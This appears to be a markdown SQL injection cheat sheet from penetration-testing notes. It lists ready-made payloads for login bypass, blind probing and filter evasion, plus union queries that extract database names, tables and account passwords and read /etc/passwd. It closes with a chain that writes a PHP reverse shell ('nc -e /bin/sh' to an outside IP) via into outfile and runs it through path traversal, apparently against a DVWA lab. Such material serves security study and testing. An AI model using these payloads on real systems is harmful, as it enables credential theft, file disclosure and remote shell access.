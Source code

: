 # SQL Injection

## Types
- MySQL
  - Error Based
    - ```'``` & ```"``` & ```\``` & ```)``` & tilda
  - Blind 
    - Boolean
      - True: ```id=1" and 1=1--```
      - False: ```id=1" and 1=2--```
      - Other
        - ```id=1' and 1=1--+```
        - ```id=1' and 1=1#```  
    - Time Based
      - ```id=1' and sleep(5)--```
      - ```id=';waitfor delay '0:0:5'--```

## Payloads
```
a' or '1'='1
a' or '1'='1'%23
a' or 1=1%23
a'%09or%09'1'='1
a'or'1'='1
a'/**/or/**/'1'='1
2 or 1=1
2%0Aor 1=1
` desc %23
IF(0,name,age)
' or 1=1#
' or 1=1--
' or 1=1 LIMIT 1 #
2 union all select * from users
```

## Tips
- True statement: ```aNd 1=1``` & ```aNd 21=21``` & ```orDeR bY 1```
- False statement: ```dNd 0=1``` & ```anD 9=2``` & ```ordEr bY 1000000000000```
- Space: ```+``` & ```/**/``` & ```%20```
- Comment: ```/*``` & ```//``` & ```;//``` & ```#``` & ```%23```

## Exploit
- Login
  - username: ```admin'#``` 
  - password: ```1' or 1=1#``` 

- Data Extracting 
  - Seleting database version, Database, user
    - ```?page=user-info.php&username=z' union select 1,database(),user(),version(),5%23``` 
  - Database tables 
    - ```... union select 1,table_name,null,null,5 from information_schema.tables``` 
    - ```... union select 1,table_name,null,null,5 from information_schema.tables where table_schema='owasp10'``` 
  - Table Columns
    - ```... union select 1,column_name,null,null,5 from information_schema.columns where table_name='accounts'``` 
  - Selecting data from table 
    - ```... union select 1,username,password,is_admin,5 from accounts``` 
  - Reading files
    - ```... union select null,load_file('/etc/passwd'),null,null,null``` 
  - Writing files
    - ```UniOn selEct null,[file content] inTo outfile '/location/to/write/file/to' /*``` 

- Shell upload 
  - Payload 
    - ```?page=user-info.php&username=z' union select '<?passthru("nc -e /bin/sh 10.20.14.208 8080");?>',null into outfile '/tmp/reverse.php'``` 
  - Listen on attacker machin:
    - nc -vv -l -p 8080
  - Run backdoor
    - ```10.20.14.211/dvwa/vulnerabilities/fi/?page=../../../../../tmp/reverse.php```

- Tips
  - TRUE statements
    - ```aNd 1=1``` & ```aNd 21=21``` & ```orDeR bY 1``` 
  - FALSE statements
    - ```dNd 0=1``` & ```anD 9=2``` & ```ordEr bY 1000000000000```   
  - Spaces
    - ```+``` & ```/**/``` & ```%20``` 
    - ```orDeR bY 1 can be re-written as``` => ```orDer+bY+1``` or ```orDer/**/bY/**/1``` or ```orDer%20bY%201```
  - Comments to end the quries
    - ```/*``` & ```//``` & ```#``` & ```%23```
    - Sometimes you might need to add ';' before the comment
      - ```anD 1=1//``` => ```anD 1=1;//```

## Tool
[SQLMAP](../Tools/sqlmap.md)

